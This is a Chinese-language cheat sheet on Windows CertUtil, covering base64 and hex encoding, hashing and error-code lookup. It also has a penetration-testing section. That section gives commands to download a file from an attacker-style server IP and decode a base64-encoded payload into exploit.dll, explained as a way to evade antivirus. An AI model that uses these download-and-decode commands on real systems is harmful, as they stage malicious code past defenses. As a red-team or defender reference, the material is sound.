 ## 编码 解码 base64

```powershell
CertUtil -encode test.txt encode.txt
type .\encode.txt

CertUtil -decode encode.txt decode.txt
type .\decode.txt
```



## 编码 十六进制

```powershell
CertUtil -encodehex .\abc.ps1 encode2.txt
type .\encode2.txt

CertUtil -decodehex  encode2.txt decode2.txt
 type .\decode2.txt
```



## 散列

MD5，SHA-1，SHA-256

```powershell
CertUtil -hashfile test.txt md5
```

## 下载

```powershell
CertUtil.exe -urlcache -split -f http://服务器ip:8000/xss.js
```

### 使用Certutil进行渗透测试

>Certutil可在未经任何验证或评估的情况下主动从Internet下载文件

### 提交恶意DLL编码

>Certutil可对文件进行base64编码，攻击者可以使用经过混淆的文件来隐藏扫描攻击的证据，然后再解码这些文件，这就是certutil发挥作用的地方，可以解码数据并避免杀毒软件的察觉。Certutil还可以用于解码已隐藏在证书文件中的可移植可执行文件。
有效载荷可以被编码或加密，以避免被检测

```powershell
CertUtil -urlcache -split -f http://192.168.211.129:8000/dll.txt | certutil -encode dll.txt edll.txt

CertUtil -decode .\edll.txt exploit.dll
```

## 系统错误代码

```powershell
CertUtil -error 8200

CertUtil -error 0x200
```

